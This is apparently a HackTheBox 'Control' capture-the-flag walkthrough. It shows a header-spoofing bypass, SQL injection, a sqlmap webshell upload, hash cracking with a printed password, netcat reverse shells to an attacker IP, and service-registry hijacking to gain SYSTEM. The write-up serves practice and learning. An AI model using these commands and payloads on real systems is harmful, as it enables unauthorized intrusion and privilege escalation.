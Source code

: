 ```yaml
---
title: "HTB: Control"
categories:
  - HackTheBox
tags:
  - HackTheBox
---
```


![Control](/assets/images/Control.PNG)

# Control

## Website Enumeration

In the source code of the index page for http://control.htb/ we see the following message:
```
<!-- To Do:
	- Import Products
	- Link to new payment system
	- Enable SSL (Certificates location \\192.168.4.28\myfiles)
<!-- Header -->
```

We'll keep this in mind for later.

At http://control.htb/admin.php there's a blank page with the message:

_Access Denied: Header Missing. Please ensure you go through the proxy to access this page_

To bypass this, we'll use the IP we grabbed above and add an X-Forwarded-For header:

```
X-Forwarded-For: 192.168.4.28
```

So, our entire request will look like:

```
GET /admin.php HTTP/1.1

Host: control.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.4.28/
X-Forwarded-For: 192.168.4.28
Connection: close
Upgrade-Insecure-Requests: 1
```

We're given access to the admin.php page!


test' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,load_file('C:/inetpub/wwwroot/admin.php')#

## Getting a Webshell/Reverse Shell

It's possible to upload a webshell using sqlmap:

```
sqlmap -r request.txt --file-dest="C:/inetpub/wwwroot/wolfshell.php" --file-write="wolfshell.php"
```

Using this "wolfshell" we are able to upload nc.exe to the server, and return a reverse shell to ourselves.

## Getting User Credentials

By dumping the DB, we found some credentials for users:

```
0E178792E8FC304A2E3133D535D38CAF1DA3CD9D
CFE3EEE434B38CBF709AD67A4DCDEA476CBA7FDA
0A4A5CAD344718DC418035A1F4D292BA603134D8
```

If we run these through hashcat, we can get a password!

```
hashcat -m 300 cracked.txt /usr/share/wordlists/rockyou.txt --force
```

We get:

**l33th4x0rhector**

So, our credentials are:

**hector:l33th4x0rhector**

## Pivoting to Hector

Now, using switch.ps1, we are able to open a semi-interactive shell as hector. First, we'll need to give him access to run nc.exe:

```
cacls C:/TEMP/nc.exe /e /p hector:f
```

Now, after uploading our switch.ps1 shell, we can run it:

```
./switch.ps1
[localhost]: PS C:\Users\Hector\Documents> C:/TEMP/nc.exe -nv 10.10.14.26 4444 -e cmd.exe
```

Voila, a fully interactive user cmd shell!

### Switch.ps1 Script

```
function switch-psuser {

    Param(
        [Parameter(Position=0)]
        [ValidateSet("adminsystem","administrator")]
        $User = "adminsystem"
    )

    switch($User)
    {
        'adminsystem'   { $username = "domain\adminsystem" ; $pw = "yyy"}
        'administrator' { $username = "control\hector" ; $pw = "l33th4x0rhector" }
    }

    $password = $pw | ConvertTo-SecureString -AsPlainText -Force
    $cred = New-Object System.Management.Automation.PSCredential -ArgumentList $username,$password
    New-PSSession -Credential $cred | Enter-PSSession
}
switch-psuser administrator
```
                                         
Voila, a CONTROL\hector shell!

From here, we need to see what services are running. We can't use accesschk.exe, as we get "Access Denied" and we can't use procmon.exe, as it's completely blocked on the machine. Additionally, we can't use tasklist to list running tasks and get info that way. We can, however, query the registry.

```
reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\
```

We get a LONG list of services.

We can test to see which of these we can start (note, there are quite a few.) We'll need to copy all of the services, save the list on our local machine, and cut it. 

```
cat services.txt | cut -d '\' -f5 >> servicelist.txt
```

From here, we can use awk to add whatever we need to:

```
awk '{print "sc start " $0}' servicelist.txt | pbcopy
```

I've opted to use pbcopy for this, but we can use whatever program we wish to. We're simply piping the output into our clipboard.

Now, we'll paste this into our command window. Note, it needs to be cmd, not powershell. Powershell doesn't start or stop the services.

We can see that the following service can be started (among others):

```
NetSetupSvc
```

Because it can be started, we'll take a look at the parameters held within the registry for this service:

```
reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\NetSetupSvc

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\NetSetupSvc
    DependOnService    REG_MULTI_SZ    RpcSs
    Description    REG_SZ    @%SystemRoot%\system32\NetSetupSvc.dll,-4
    DisplayName    REG_SZ    @%SystemRoot%\system32\NetSetupSvc.dll,-3
    ErrorControl    REG_DWORD    0x1
    FailureActions    REG_BINARY    FFFFFFFF000000000000000001000000140000000000000000000000
    ImagePath    REG_EXPAND_SZ    %SystemRoot%\System32\svchost.exe -k netsvcs -p
    ObjectName    REG_SZ    LocalSystem
    RequiredPrivileges    REG_MULTI_SZ    SeChangeNotifyPrivilege\0SeImpersonatePrivilege\0SeLoadDriverPrivilege
    ServiceSidType    REG_DWORD    0x1
    Start    REG_DWORD    0x3
    Type    REG_DWORD    0x20

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\NetSetupSvc\Parameters
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\NetSetupSvc\Security
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\NetSetupSvc\TriggerInfo
```

ImagePath looks interesting, as it's calling an executable and passing parameters to it. We'll edit this and see if we can get it to return a shell to us:

```
reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\NetSetupSvc /v ImagePath /t REG_EXPAND_SZ /d "C:\Users\alcibiades\Documents\nc.exe -nv 10.10.14.5 4444 -e cmd.exe"  /f
```

With the ImagePath changed, we'll try to start the service with hector:

```
sc start NetSetupSvc
```

Now, we just catch the shell!

```
Microsoft Windows [Version 10.0.17763.805]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```



